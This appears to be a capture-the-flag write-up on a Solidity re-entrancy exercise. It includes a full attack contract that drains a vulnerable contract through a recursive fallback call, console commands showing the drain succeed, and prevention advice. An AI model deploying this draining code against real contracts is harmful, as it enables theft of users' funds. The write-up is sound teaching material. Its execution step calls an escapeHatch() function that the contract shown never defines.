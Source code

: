 ## Exercise 10: Re-entrancy

Re-entrancy is a vulnerability that allows a malicious party to re-execute part of a function multiple times before the function has completed. It was a re-entrancy attack that famously drained the Ethereum DAO in 2016 of 3.6M ether. 

The sequence for the re-entrancy attack is: 1) send some ether to the contract (withdraw func requires that the user has some balance), 2) withdraw ether from the contract, 3) During withdrawal, execute the withdraw function again N times before the user balance has been updated in contract's mapping.

So, we will first create an instance of the vulnerable `Reenter.sol` contract. That contract has a function `donate()` that receives ether and allows the function caller to have a balance in the contract's `balances` mapping. So we will send some ether to the contract's `donate()` function to get our hack contract into `Reenter.sol`'s mapping. Then our hack contract is able to call `withdraw` legitimately as long as the requested amount is less than the value in `mappings`.

At this point we can create a malicious loop such that when `Reenter.sol` sends funds to our hack contract it triggers the fallback function which includes inside it an additional call to `withdraw()`. This works because the transfer of ether happens before the state variables are updated in `Reenter.sol`, and it is the transfer of ether that triggers the fallback function that makes an additional call to `withdraw`. The hack contract can repeatedly receive ether without the value in `balances` ever decrementing. In this way, the total balance of the contract can be drained.

### ReenterHack.sol
This contract hacks `Reenter.sol` using the re-entrancy described above

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './Reentrance.sol';


contract ReentranceHack{

    address payable owner;
    address payable contractAddress;
    uint amount;
    Reentrance reentrance;
   
    constructor(address payable _contractAddress) public {
        // set vulnerable contract deployment address 
        // on deployment
        owner = msg.sender;
        contractAddress = _contractAddress;
        // create instance of vulnerable contract
        reentrance = Reentrance(contractAddress);

    }


    function attack() external payable {
        // receive ether from msg.sender
        // pass the ether to the vulnerable contract
        // then we have a balance in their mapping
        // then call withdraw func
        amount = msg.value;
        reentrance.donate{value: amount}(address(this));
        withdraw(); 
    }


    function withdraw() private {
        // withdraw checks that the vulnerablecontract has a +ve
        // balance. If so, we withdraw some ether. While our
        // deposit amount is smaller than the contract balance we
        // can withdraw <= deposit amount. When the contract balance
        // is less than our deposit amount we just withdraw whatever 
        // remains

        uint withdrawAmount;

        if (address(reentrance).balance > 0){
        
            if (address(reentrance).balance < amount){
                withdrawAmount = address(reentrance).balance;
            }
            
            else{
                withdrawAmount = amount;
            }

            reentrance.withdraw(withdrawAmount);
        }
    }



    receive() external payable{
    // this is our fallback function. When ether is received,
    // withdraw() is executed        
        withdraw();

    }



}

```

## Execution

```bash
>>> hacker = accounts.load('main')
>>> contract = Reentrance.at('DEPLOYED ADDRESS')
>>> hack = ReentranceHack('VULNERABLE CONTRACT DEPLOYED ADDRESS', {'from':hacker})
>>> hack.attack({'from':hacker, 'value': 0.2e18}) # value in wei
>>> hack.balance() # confirm hack contract balance has increased
  >>> 201000000000000000
>>> contract.balance # confirm original contract balance is 0
  >>> 0
>>> hack.escapeHatch({'from':hacker}) # return funds from contract to eoa address
```

## Prevention

Re-entrancy can be guarded against by taking care over the order of execution within a function. Calling external functions should be the final step in a multi-step function, coming after any state changes. If the values in the balances mapping were updated prior to the transfer of ether the re-entrancy would more difficult. More security can be gained by using a mutex. This is often a simple boolean that flips its value for each transfer and has to be manually flipped back (i.e. a "lock" variable that must be 'false' for the transfer to execute). Using the OpenZepelin re-entrancy guard is a very effective blocker to re-entrancy hacks. Finally, using `.transfer()` instead of `.call()` or `.send()`to move ether out of a contract is safer because it throws exceptions and interrupts the function execution when the recipient fails to accept incoming ether and limits the forwarded gas, limiting re-entrancy.


### Links

[Protecting against re-entrancy](https://medium.com/coinmonks/protect-your-solidity-smart-contracts-from-reentrancy-attacks-9972c3af7c21)

[Analysis of the dao attack](https://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

[reentrancy walkthrough](https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14)

